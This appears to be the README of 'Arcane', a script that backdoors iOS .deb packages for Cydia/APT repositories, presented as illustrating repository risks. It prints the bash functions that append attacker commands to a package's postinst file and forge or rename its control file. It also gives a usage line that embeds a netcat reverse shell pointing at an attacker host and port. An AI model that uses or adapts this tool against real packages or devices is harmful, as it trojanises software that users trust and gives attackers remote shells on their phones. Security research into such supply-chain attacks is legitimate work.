

Arcane is a simple script designed to backdoor iOS packages (iphone-arm) and create the necessary resources for APT repositories. It was created for [this publication](https://null-byte.com/a-0325421/) to help illustrate why Cydia repositories can be dangerous and what post-exploitation attacks are possible from a compromised iOS device.



---

### How Arcane works...

To understand what's happening in the GIF, decompress a package created with Arcane.
```
dpkg-deb -R /tmp/cydia/whois_5.3.2-1_iphoneos-arm_BACKDOORED.deb /tmp/whois-decomp
```

Notice the `control` and `postinst` files in the `DEBIAN` directory. Both files are important.
```
tree /tmp/whois-decomp/

/tmp/whois-decomp/
├── DEBIAN
│   ├── control
│   └── postinst
└── usr
    └── bin
        └── whois
```

It's possible to supply scripts as part of a package when installing or removing applications. [Package maintainer scripts](https://www.debian.org/doc/debian-policy/ch-maintainerscripts.html) include the [preinst, postinst, prerm, and postrm](https://wiki.debian.org/MaintainerScripts) files. Arcane takes advantage of the `postinst` file to execute commands during the installation.
```bash
# The "post-installation" file. This file is generally responsible
# for executing commands on the OS after installing the required
# files. It's utilized by developers to manage and maintain various
# aspects of an installation. Arcane abuses this functionality by
# appending malicious Bash commands to the file.
postinst="$tmp/DEBIAN/postinst";

# A function to handle the type of command execution embedded into the
# postinst file.
function inject_backdoor ()
{
    # If --file is used, `cat` the command(s) into the postinst file.
    if [[ "$infile" ]]; then
        cat "$infile" >> "$postinst";
        embed="[$infile]";
    else
        # If no --file, utilize the simple Bash payload, previously
        # defined.
        echo -e "$payload" >> "$postinst";
        embed="generic shell command";
    fi;
    status "embedded $embed into postinst" "error embedding backdoor";
    chmod 0755 "$postinst"
};
```

The [control](https://www.debian.org/doc/debian-policy/ch-controlfields.html) file contains values that package management tools use when installing packages. Arcane will either modify an existing `control` or create it.
```bash
# The "control" file template. Most iOS packages will include a
# control file. In the event one is not found, Arcane will use the
# below template. The `$hacker` variable is used here to occupy
# various arbitrary fields.
# https://www.debian.org/doc/manuals/maint-guide/dreq.en.html
controlTemp="Package: com.$hacker.backdoor
Name: $hacker backdoor
Version: 1337
Section: app
Architecture: iphoneos-arm
Description: A backdoored iOS package
Author: $hacker <https://$hacker.github.io/>
Maintainer: $hacker <https://$hacker.github.io/>";

...

# An `if` statement to check for the control file.
if [[ ! -f "$tmp/DEBIAN/control" ]]; then
    # If no control is detected, create it using the template.
    echo "$controlTemp" > "$tmp/DEBIAN/control";
    status "created control file" "error with control template";
else
    # If a control file exists, Arcane will simply rename the package
    # as it appears in the list of available Cydia applications. This
    # makes the package easier to location in Cydia.
    msg "detected control file" succ;
    sed -i '0,/^Name:.*/s//Name: $hacker backdoor/' "$tmp/DEBIAN/control";
    status "modified control file" "error with control";
fi;
```

### Usage

Clone the repository in Kali v2020.3.
```
sudo apt-get update; sudo apt-get install -Vy bzip2 netcat-traditional dpkg coreutils # dependencies
sudo git clone https://github.com/tokyoneon/arcane /opt/arcane
sudo chown $USER:$USER -R /opt/arcane/; cd /opt/arcane
chmod +x arcane.sh;./arcane.sh --help
```

Embed a command into a given package. See [article](https://null-byte.com/a-0325421/) for more info.
```
./arcane.sh --input samples/sed_4.5-1_iphoneos-arm.deb --lhost <attacker> --lport <4444> --cydia --netcat
```

### Package samples

The repo includes packages for testing.
```
ls -la samples/

-rw-r--r-- 1 root root 100748 Jul 17 18:39 libapt-pkg-dev_1.8.2.1-1_iphoneos-arm.deb
-rw-r--r-- 1 root root 142520 Jul 22 06:21 network-cmds_543-1_iphoneos-arm.deb
-rw-r--r-- 1 root root  76688 Aug 29  2018 sed_4.5-1_iphoneos-arm.deb
-rw-r--r-- 1 root root  60866 Jul  8 21:03 top_39-2_iphoneos-arm.deb
-rw-r--r-- 1 root root  13810 Aug 29  2018 whois_5.3.2-1_iphoneos-arm.deb
```

MD5 sums, as found on the official [Bingner repository](https://apt.bingner.com/).
```
md5sum samples/*.deb

3f1712964701580b3f018305a55e217c  samples/libapt-pkg-dev_1.8.2.1-1_iphoneos-arm.deb
795ccf9c6d53dd60d2f74f7a601f474f  samples/network-cmds_543-1_iphoneos-arm.deb
a020882dac121afa4b03c63304d729b0  samples/sed_4.5-1_iphoneos-arm.deb
38db275007a331e7ff8899ea22261dc7  samples/top_39-2_iphoneos-arm.deb
b40ee800b72bbac323568b36ad67bb16  samples/whois_5.3.2-1_iphoneos-arm.deb
```
